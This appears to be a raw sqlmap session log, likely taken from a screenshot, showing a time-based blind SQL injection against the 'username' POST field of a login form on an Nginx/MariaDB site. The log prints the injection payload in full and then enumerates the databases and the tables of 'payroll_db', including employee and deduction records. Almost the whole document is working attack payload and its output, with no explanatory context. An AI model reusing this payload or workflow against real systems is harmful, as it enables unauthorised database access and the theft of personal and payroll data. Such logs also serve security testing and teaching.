```shell
sqlmap resumed the following injection point(s) from stored session:                                                     
---                                                                                                                      
Parameter: username (POST)                                                                                               
    Type: time-based blind                                                                                               
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                                            
    Payload: username=admin' AND (SELECT 8156 FROM (SELECT(SLEEP(5)))Opaz) AND 'vZZY'='vZZY&password=admin               
---                                                                                                                      
[15:36:19] [INFO] the back-end DBMS is MySQL                                                                             
web application technology: Nginx 1.14.2                                                                                 
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)                                                                            
[15:36:19] [INFO] enumerating database management system schema                                                          
[15:36:19] [INFO] fetching database names                                                                                
[15:36:19] [INFO] fetching number of databases                                                                           
[15:36:19] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[15:36:20] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y                   
2                                                                                                                        
[15:36:30] [INFO] retrieved:                                                                                             
[15:36:35] [INFO] adjusting time delay to 1 second due to good response times                                            
information_schema                                                                                                       
[15:37:39] [INFO] retrieved: payroll_db                                                                                  
[15:38:20] [INFO] fetching tables for databases: 'information_schema, payroll_db'                                        
[15:38:20] [INFO] fetching number of tables for database 'payroll_db'                                                    
[15:38:20] [INFO] retrieved: 11                                                                                          
[15:38:23] [INFO] retrieved: position                                                                                    
[15:38:55] [INFO] retrieved: employee                                                                                    
[15:39:25] [INFO] retrieved: department                                                                                  
[15:40:01] [INFO] retrieved: payroll_items                                                                               
[15:40:52] [INFO] retrieved: attendance                                                                                  
[15:41:24] [INFO] retrieved: employee_deductions                                                                         
[15:42:35] [INFO] retrieved: employee_allowances                                                                         
```